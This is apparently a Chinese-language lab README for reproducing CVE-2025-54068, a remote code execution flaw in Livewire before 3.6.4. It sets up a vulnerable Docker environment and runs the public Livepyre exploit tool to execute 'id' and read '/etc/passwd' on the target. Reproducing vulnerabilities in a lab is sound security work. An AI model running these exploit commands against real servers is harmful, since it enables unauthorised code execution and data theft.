

# Livewire组件属性水合远程代码执行漏洞（CVE-2025-54068）

Livewire是一个用于Laravel的全栈框架，可以在不离开Laravel的情况下轻松构建动态Web界面。

在3.6.4版本之前的Livewire存在一个严重的远程代码执行漏洞（CVE-2025-54068）。该漏洞是由于组件属性更新水合（hydration）过程中对代码生成的控制不当导致的。当Livewire组件处理来自快照（snapshot）的用户输入时，框架未能正确过滤对象类型，导致攻击者可以注入恶意载荷并在服务器上执行。如果攻击者知道Laravel应用的`APP_KEY`，则利用过程会更加简单。

参考链接：

- <https://github.com/advisories/GHSA-29cq-5w36-x7w3>
- <https://github.com/synacktiv/Livepyre>

## 环境搭建

执行如下命令启动Livewire 3.6.3漏洞环境：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`可以看到一个示例的Todo List应用。

## 漏洞复现

可以使用 @\_remsio\_ 和 @\_Worty\_ 开发的[Livepyre](https://github.com/synacktiv/Livepyre)漏洞利用工具来复现该漏洞。首先克隆仓库并安装依赖：

```bash
git clone https://github.com/synacktiv/Livepyre.git
cd Livepyre
pip install -r requirements.txt
```

然后对目标运行漏洞利用程序。该工具会自动检测Livewire版本、查找可用的快照，并尝试在不需要`APP_KEY`的情况下利用该漏洞：

```bash
python Livepyre.py -u http://your-ip:8080/ -f system -p "id"
```

工具会检查快照中是否存在对象类型的参数。如果存在，则直接触发RCE；否则会尝试暴力破解参数。你也可以执行其他命令，比如读取`/etc/passwd`文件：

```bash
python Livepyre.py -u http://your-ip:8080/ -f system -p "cat /etc/passwd"
```


